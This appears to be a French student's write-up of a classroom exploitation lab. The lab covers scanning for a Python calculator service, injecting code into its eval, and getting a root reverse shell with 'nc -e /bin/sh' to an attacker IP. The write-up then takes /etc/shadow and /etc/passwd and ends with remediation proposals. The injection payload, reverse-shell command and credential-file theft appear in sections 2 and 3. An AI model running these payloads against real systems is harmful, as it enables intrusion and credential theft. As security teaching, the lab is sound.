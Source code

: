 # TP5 : Exploit, pwn, fix

Encore un TP de dév, mais où vous ne développez pas ! Pas mal nan ?

Le but : **exploiter un code vulnérable et proposer des remédiations** pour qu'il ne le soit plus.

La mise en situation est assez proche d'un cas réel, en restant dans des conditions de TP.

> **Pour maximiser le fun, ne discutez de rien de tout ça ni avec les dévs, ni avec les infras**, restez dans votre secte de sécu :D Si tu joues le jeu c'est un exercice cool, moins tu le jeu, plus il est nul !

![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

➜ **Je vous filerai un lien en cours pour télécharger le client d'une application**

- pas possible de commencer le TP tant que j'ai rien donné donc, attendez le feu vert !

➜ Votre but : 🏴‍☠️ **prendre le contrôle du serveur** 🏴‍☠️

## 1. Reconnaissance

> ***Cette section est en grande partie uniquement réalisable en cours. Perdez pas de temps.***

➜ On a de la chance dis donc ! Du Python pas compilé !

- prenez le temps de lire le code
- essayez de le lancer et de capter à quoi il sert

🌞 **Déterminer**

IP : 10.1.2.12
PORT :13337


```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
ERROR 2023-11-30 15:20:35,861 Impossible de se connecter au serveur 10.1.2.12 sur le port 13337
```

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

```
PS C:\Users\guill> nmap -T2 -Pn -sT -p13337 10.33.64.1/20
```

[Resultat](./result.txt)

🦈 **tp5_nmap.pcapng**

![Capture](./result.pcapng)

🌞 **Connectez-vous au serveur**

```python
IP = 10.33.67.166
PORT = 13337
```

```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
Veuillez saisir une opération arithmétique : 9*9
```

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**

```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
Veuillez saisir une opération arithmétique : __import__('subprocess').getoutput('echo coucou')
```

Log

```log
2023-11-30 16:35:59 INFO Connexion r�ussie � 10.33.67.166:13337
2023-11-30 16:36:09 INFO Message envoy� au serveur 10.33.67.166 : __import__('subprocess').getoutput('echo Bonjour Lorens comment �a va ?')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

- **en premier**
  ```
  PS C:\Users\guill> ncat -l -vv -p 9999     
  ```
- **en deuxième**
  ```log
  INFO Connexion reussie : 10.33.70.40:50002
  INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('yum install nc -y')
  INFO Reponse recue du serveur 10.33.70.40 : b'Last metadata expiration check: 0:22:28 ago on Fri 01 Dec 2023 02:22:47 PM CET.\nPackage nmap-ncat-3:7.92-1.el9.x86_64 is already installed.\nDependencies resolved.\nNothing to do.\nComplete!'
  INFO Connexion reussie : 10.33.70.40:50002
  INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('nc -e /bin/sh 10.33.76.184 9999')
  ```
- **enfin**
  ```
  Ncat: Connection from 10.33.70.40:41324.
  echo toto
  toto
  whoami
  root
  ```

🌞 **Pwn**

- voler les fichiers `/etc/shadow` et `/etc/passwd`
[Shadow](./shadow.txt)
[Passwd](./passwd.txt)
- voler le code serveur de l'application
[Code](./server.py)
- déterminer si d'autres services sont disponibles sur la machine
[Services](./service.txt)

## 4. Bonus : DOS

Le DOS dans l'esprit, souvent c'est :

- d'abord t'es un moldu et tu trouves ça incroyable
- tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
- tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
- tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

## II. Remédiation

🌞 **Proposer une remédiation dév**

Code clienet.py :
Supprimer la condition qui vérifie si l'imput est un nombre ou pas
[CodeClient](./client.py)

Code server.py :
Rajoute la condition initialement présent dans client.py pour vérifier si l'imput est un nombre ou pas
[CodeServer](./server.py)

🌞 **Proposer une remédiation système**

Créer un nouveau user avec des droits limités et lancer le service avec ce user pour que le service ne puisse pas accéder à des fichiers sensibles

On ne doit pas pouvoir ouvrir le firewall avec le user sauf le port du service


